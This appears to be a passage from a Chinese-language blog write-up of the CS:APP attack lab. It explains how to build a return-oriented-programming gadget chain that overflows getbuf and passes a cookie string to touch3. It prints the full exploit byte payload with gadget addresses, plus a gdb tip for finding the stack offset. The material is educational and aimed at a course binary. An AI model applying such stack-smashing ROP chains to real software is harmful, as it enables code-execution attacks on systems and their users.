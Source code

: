 要知道, mov是将一个寄存器的值直接赋值给另一个寄存器的, 而在本次实验中, stack是随机化的, 我们不可能固定 string 字符串的内存位置, **所以可以使用相对偏移量来做**, 我们能确定的是getbuf函数返回后, $rsp的位置. 那么有:
$$
cookie\_value\_address = $rsp + offset
$$
应该注意到, $rdi一定会在最后被赋值一次, 因为rdi才是函数调用的第一个参数. 那如果去构造上面这个公式呢? 这就又需要逆向思维了?

谁能修改 rdi? –> rax可以.

谁能修该 rax? –> rsp 和 pop指令

rax可以修改谁? --> 可以修改rdi, edx

edx可以修改谁? -->  可以修改ecx

ecx可以修改谁? --> 可以修改esi

再结合前文的lea指令

```asm
lea    (%rdi,%rsi,1),%rax
```

rax = rdi + rsi

这样, 所有的条件都凑齐了.

画个示意图:

![image-20200721100554201](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200721100554201.png)

于是可以有攻击代码:

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 前0x28个字符填充0x00 */
06 1a 40 00 00 00 00 00 /* mov $rsp,$rax */
c5 19 40 00 00 00 00 00 /* mov $rax,$rdi */
ab 19 40 00 00 00 00 00 /* pop $rax */
48 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* movl $eax,$edx */
34 1a 40 00 00 00 00 00 /* movl $edx,$ecx */
63 1a 40 00 00 00 00 00 /* movl $ecx,$esi */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00 /* mov $rax,$rdi */
fa 18 40 00 00 00 00 00 /* touch3 地址 */
35 39 62 39 39 37 66 61 00 /* cookie value */
```

一个小tip: offset不用手算, 最先可以随便设置一个值,gdb debug到进入到我们的注入代码时候, 执行:

```asm
x /100xb $rsp
```

就可以看到cooike value所在的内存地址, 然后 用这个地址 - $rsp即可得到offset, 最后再修改一次攻击代码即可.

## 6. 尾语

这一个实验和上一个bomlab实验隔了整整一个月才做, 不过整体坐下来比bomblab简单得多, 总体来说, 加强了gdb调试能力, 加深对函数调用的过程, 了解了一些常用的代码注入攻击手段, 能够帮助我们写出更安全,健壮的代码.